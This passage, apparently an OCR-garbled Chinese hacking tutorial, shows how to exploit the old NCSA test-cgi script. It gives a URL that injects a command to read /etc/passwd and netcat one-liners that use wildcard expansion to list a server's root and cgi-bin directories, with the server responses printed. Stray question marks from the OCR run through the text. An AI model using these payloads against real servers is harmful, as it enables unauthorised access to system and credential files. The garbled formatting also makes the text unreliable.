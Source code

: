 SERVER_PORT? =? 80
REQUEST_METHOD? =? GET
HTTP_ACCEPT? =? text/plain,? application/x-html,? application/html,
text/html,? text/x-html
PATH_INFO? =
PATH_TRANSLATED? =
SCRIPT_NAME? =? /cgi-bin/test-cgi
QUERY_STRING? =? whatever
REMOTE_HOST? =? fifth.column.gov
REMOTE_ADDR? =? 200.200.200.200
REMOTE_USER? =
AUTH_TYPE? =
CONTENT_TYPE? =
CONTENT_LENGTH? =?
再来一次，这样输入：?
<a href="http://thegnome.com/cgi-bin/test-cgi?\help&amp;0a/bin/cat%20/etc/passwd">http://thegnome.com/cgi-bin/test-cgi?\help&amp;0a/bin/cat%20/etc/passwd</a>?
看到PASSWD了？?
用netcat? 80? 端口? 进行攻击：?
machine%? echo? "GET? /cgi-bin/test-cgi?/*"? |? nc? removed.name.com? 80?
返回：?
CGI/1.0? test? script? report:?
argc? is? 1.? argv? is? /\*.?
SERVER_SOFTWARE? =? NCSA/1.4.1
SERVER_NAME? =? removed.name.com
GATEWAY_INTERFACE? =? CGI/1.1
SERVER_PROTOCOL? =? HTTP/0.9
SERVER_PORT? =? 80
REQUEST_METHOD? =? GET
HTTP_ACCEPT? =
PATH_INFO? =
PATH_TRANSLATED? =
SCRIPT_NAME? =? /bin/cgi-bin/test-cgi
QUERY_STRING? =? /a? /bin? /boot? /bsd? /cdrom? /dev? /etc? /home? /lib? /mnt
/root? /sbin? /stand? /sys? /tmp? /usr? /usr2? /var
REMOTE_HOST? =? remote.machine.com
REMOTE_ADDR? =? 255.255.255.255
REMOTE_USER? =
AUTH_TYPE? =
CONTENT_TYPE? =
CONTENT_LENGTH? =?
显示出了根目录！这样试试：?
machine%? echo? "GET? /cgi-bin/test-cgi?*"? |? nc? removed.name.com? 80?
返回：?
CGI/1.0? test? script? report:?
argc? is? 1.? argv? is? \*.?
SERVER_SOFTWARE? =? NCSA/1.4.1
SERVER_NAME? =? removed.name.com
GATEWAY_INTERFACE? =? CGI/1.1
SERVER_PROTOCOL? =? HTTP/0.9
SERVER_PORT? =? 80
REQUEST_METHOD? =? GET
HTTP_ACCEPT? =
PATH_INFO? =
PATH_TRANSLATED? =
SCRIPT_NAME? =? /bin/cgi-bin/test-cgi
QUERY_STRING? =? calendar? cgi-archie? cgi-calendar? cgi-date? cgi-finger
cgi-fortune? cgi-lib.pl? imagemap? imagemap.cgi? imagemap.conf? index.html
mail-query? mail-query-2? majordomo? majordomo.cf? marker.cgi
menu? message.cgi? munger.cgi? munger.note? ncsa-default.tar? post-query
query? smartlist.cf? src? subscribe.cf? test-cgi? uptime
REMOTE_HOST? =? remote.machine.com
REMOTE_ADDR? =? 255.255.255.255
REMOTE_USER? =
